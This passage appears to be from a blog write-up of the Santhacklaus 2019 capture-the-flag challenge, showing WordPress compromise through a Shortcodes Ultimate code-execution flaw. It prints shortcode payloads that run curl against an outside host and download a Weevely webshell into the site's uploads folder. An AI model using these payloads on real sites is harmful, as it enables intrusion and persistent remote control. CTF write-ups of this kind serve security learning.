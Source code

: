 WPScan is really a nice tool !

![](/img/santhacklaus-2019/screen-10.png)

Theses credentials permitted to obtain an access as **Steve Parker**. This access also permitted to read the secret notes.

![](/img/santhacklaus-2019/screen-11.png)



## Step 3 : Plugin exploit

With the previous plugins list obtained with wfuzz, I checked all of them on google and one link appeared really interesting : https://wpvulndb.com/vulnerabilities/8945

`Shortcodes Ultimate <= 5.0.0 - Authenticated Contributor Code Execution`

The exploit is pretty simple. We tried it on a new article.

![](/img/santhacklaus-2019/screen-15.png)

Payload : 

```md
[su_meta key=1 post_id=1 default='curl http://1.2.3.4:4444/RCE!!!' filter='system']
```

![](/img/santhacklaus-2019/screen-16.png)

Perfect ! So beautiful ! The remote server reached our computer. Our commands have been correctly executed.


### 3.1. Webshell creation

The basic RCE was really unconfortable. So we've created a webshell with **Weevely** !

{{< protips "Weevely is a secured webshell designed for post-exploitation purposes. It's a tool naturally present on offensive distribution. More infos here : https://github.com/epinna/weevely3" >}}

If you haven't develop your own webshell, you can use Weevely webshell project. No more reason to use c99 malware shell PLEASE (yeah please no more of this s**t !!!) :(

```bash
[th1b4ud@th1b4ud-pc weevely3]$ ./weevely.py generate teachunbequatreude_password agent.php
Generated 'agent.php' with password 'teachunbequatreude_password' of 742 byte size.
```

We generated a webshell `agent.php` with password : `teachunbequatreude_password` (yeah I know it's a weak password, have you tried it on the CTFd platform ? :D). All we have to do is to upload it.

```md
[su_meta key=1 post_id=1 default='curl http://1.2.3.4:4444/agent.php -o wp-content/uploads/3e5t12e.php' filter='system']
```

![](/img/santhacklaus-2019/screen-16-4.png)
